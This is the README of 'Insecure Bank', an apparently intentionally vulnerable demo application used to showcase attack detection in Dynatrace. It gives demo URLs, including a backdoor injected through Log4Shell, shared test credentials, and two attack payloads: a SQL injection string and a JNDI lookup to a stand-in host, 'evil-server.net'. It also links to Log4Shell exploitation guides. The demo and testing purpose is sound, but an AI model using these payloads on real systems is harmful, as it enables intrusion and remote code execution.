

# Insecure Bank

## Quick information

### Deployed versions of Insecure Bank within Dynatrace

Sprint tenant (used for external demos, has to remain stable!):

* application: <https://insecurebank.apps.lab.dynatrace.org/insecure-bank/>
  * backdoor (injected via Log4Shell): <https://insecurebank.apps.lab.dynatrace.org/backdoor/>
* monitored by: <https://cfm05957.sprint.dynatracelabs.com/ui/security/attacks>

Dev tenant (can be used for arbitrary testing and internal demos):

* application: <https://insecure-bank-dev-casp.apps.lab.dynatrace.org/insecure-bank/>
  * backdoor (injected via Log4Shell): <https://insecure-bank-dev-casp.apps.lab.dynatrace.org/backdoor/>
* monitored by: <https://demo.dev.dynatracelabs.com/ui/security/attacks>

### Login credentials

* Username: `john` or `doug` or `ray` ...
* Password: `test`

### Simple attack payloads

For simple attacks, just provide one of the payloads below via the username text field.

SQL injection:

* `hacker' OR 1=1 --`

JNDI injection:

* `${jndi:ldap://evil-server.net:6666/}`

For more sophisticated attacks (Log4Shell), see [here](markdown/log4shell_exploitation.md).

## More information

What do you want to do with Insecure Bank?

Run the application:

* [Build and run Insecure Bank with Maven](markdown/building_running_maven.md)
* [Build and run Insecure Bank with Docker](markdown/building_running_docker.md)

Generate automated attack load on the application:

* [Generate attack load on a running Insecure Bank instance with Python](markdown/load_generation_python.md)
* [Generate attack load on a running Insecure Bank instance with Docker](markdown/load_generation_docker.md)

Exploit the Log4Shell vulnerability:

* [Set up exploitation of Log4Shell within Insecure Bank manually](markdown/log4shell_exploitation_setup_manual.md)
* [Set up a Log4Shell-exploitable version of Insecure Bank with Docker](markdown/log4shell_exploitation_setup_docker.md)
* [Set up a Log4Shell-exploitable version of Insecure Bank and generate attack load with docker-compose](markdown/log4shell_exploitation_setup_docker_compose.md)
* [Actually exploit Log4Shell within Insecure Bank](markdown/log4shell_exploitation.md)
